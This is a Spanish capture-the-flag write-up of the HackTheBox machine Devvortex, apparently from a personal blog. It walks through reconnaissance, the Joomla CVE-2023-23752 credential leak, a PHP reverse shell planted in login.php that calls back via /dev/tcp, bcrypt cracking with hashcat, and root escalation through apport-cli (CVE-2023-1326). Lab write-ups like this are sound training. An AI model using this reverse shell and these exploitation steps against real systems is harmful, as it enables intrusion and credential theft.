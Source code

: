 ```yaml
---
title: Devvortex
date: 2024-08-30
categories: [WRITEUPS, HackTheBox]
tags: [joomla]  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


![picture](/assets/images/hackthebox/dev1.png)

Buenas, en esta máquina explotaremos una web con el gestor de contenido **Joomla**, gracias a la vulnerabilidad **CVE-2023-23752**, obtendremos unas credenciales del panel de administrador, y de una base de datos. Para la escalada de privilegios explotamos **CVE-2023-1326**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que vamos a realizar es un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.11.242 -n -Pn -v
```

![picture](/assets/images/hackthebox/dev2.png){: w="600" h="300" }

Si intentamos introducir la dirección *IP* en el navegador, nos va a salir el siguiente mensaje.

![picture](/assets/images/hackthebox/dev3.png)

Eso es porque tenemos que añadir el dominio junto con la IP en el archivo "**/etc/hosts**" para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/dev4.png)

Y ahora si podemos ver el contenido de la página web.

![picture](/assets/images/hackthebox/dev5.png)

Viendo la página web no encontramos nada interesante, y realizando **Fuzzing** para encontrar entradas tampoco.

Lo siguiente será realizar **Fuzzing** para buscar subdominios.

```bash
ffuf -c -H 'Host: FUZZ.devvortex.htb' -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://devvortex.htb -fc=302
```

Y nos encuentra el subdominio "**dev**".

![picture](/assets/images/hackthebox/dev6.png)

A continuación, lo añadimos al "**/etc/hosts/**" como hemos hecho antes.

![picture](/assets/images/hackthebox/dev7.png)

Y comprobamos el contenido dominio, como podemos ver es otra página.

![picture](/assets/images/hackthebox/dev8.png)

Realizando **Fuzzing** con **Gobuster**, encontramos lo siguiente.

```bash
gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.sh,.txt,.md,.png,.jpg -b 403,404
```

![picture](/assets/images/hackthebox/dev9.png)

Si leemos el archivo "**robots.txt**" encontramos que el gestor de contenido que está corriendo por detrás es un **Joomla**.

![picture](/assets/images/hackthebox/dev10.png)

Si vemos el archivo "**README.txt**" encontramos la versión de **Joomla**.

![picture](/assets/images/hackthebox/dev11.png)

El la ruta "**/administrator**" encontramos el panel de login de **Joomla**.

![picture](/assets/images/hackthebox/dev12.png)

---

## **Explotación**

Buscando por internet si la versión de **Joomla** es vulnerable, encontramos [**CVE-2023-23752**](https://github.com/Acceis/exploit-CVE-2023-23752) por el cual podemos listar información privilegiada.

Mirando el script, vemos que lanza peticiones a la siguiente **URL**.

![picture](/assets/images/hackthebox/dev13.png)

A continuación, vamos a enviar una petición con **CURL** al dominio junto a la **URL**, para ver que nos muestra.

```bash
curl -s -X GET 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true'
```

![picture](/assets/images/hackthebox/dev14.png)

Para verlo en un mejor formato añadimos lo siguiente.

```bash
curl -s -X GET 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | jq
```

Y encontramos un usuario, una contraseña y una base de datos.

![picture](/assets/images/hackthebox/dev15.png)

Con las credenciales encontradas vamos a probar a entrar en el panel de **Joomla**.

Y obtenemos acceso.

![picture](/assets/images/hackthebox/dev16.png)

A continuación, la idea es introducir en el archivo "**login.php**", una **Reverse Shell** para poder obtener una *Shell interactiva* en nuestra máquina local.

```php
system("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
```

![picture](/assets/images/hackthebox/dev17.png)

Antes de guardar, tendremos que ponernos en escucha con un **Listener**.

```bash
nc -nlvp 4444
```

Y obtendremos acceso a la máquina como el usuario *www-data*.

![picture](/assets/images/hackthebox/dev18.png)

---

## **Escalada de privilegios**

Probando a entrar con el usuario y contraseña de **Lewis** en la base de datos encontrada antes, obtenemos acceso.

![picture](/assets/images/hackthebox/dev19.png){: w="600" h="300" }

Mostrando las bases de datos, nos metemos en la de **joomla**.

![picture](/assets/images/hackthebox/dev20.png){: w="600" h="300" }

Y mostrando las tablas existentes en la base de datos, seleccionamos el usuario y la contraseña de la tabla ***sd4fg_users***.

![picture](/assets/images/hackthebox/dev21.png){: w="600" h="300" }

Con la herramienta **hashid** vemos que el encriptado es **bcrypt**.

A continuación, creamos un archivo con la contraseña de **Logan** cifrada dentro, y vamos a intentar crackearla con **hashcat**.

```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Y nos encuentra la contraseña en el diccionario.

![picture](/assets/images/hackthebox/dev22.png){: w="600" h="300" }

Intentamos migrar de usuario a **Logan**, y obtenemos acceso.

![picture](/assets/images/hackthebox/dev23.png)

En su carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/dev24.png){: w="400" h="250" }

Listando los permisos de **SUDO** del usuario encontramos el siguiente.

**Apport** se encarga de recopilar informes de errores para depuración.

![picture](/assets/images/hackthebox/dev25.png)

Buscando en internet encuentro la vulnerabilidad [**CVE-2023-1326**](https://github.com/diego-tella/CVE-2023-1326-PoC), que nos permite obtener una Shell como **root**.

Para ello tendremos que crear un archivo "**.crash**" introduciendo lo siguiente, y ejecutarlo como nos dice el repositorio de Github.

```bash
echo 'ProblemType: hola' > report.crash
```

![picture](/assets/images/hackthebox/dev26.png){: w="500" h="200" }

Cuando pulsemos la **V** tendremos que escribir "***!/bin/bash***".

![picture](/assets/images/hackthebox/dev27.png){: w="500" h="200" }

Y obtendremos la **shell** como **root**, en su directorio personal encontramos la segunda **flag**.

![picture](/assets/images/hackthebox/dev28.png)

![picture](/assets/images/hackthebox/dev29.png){: w="600" h="300" }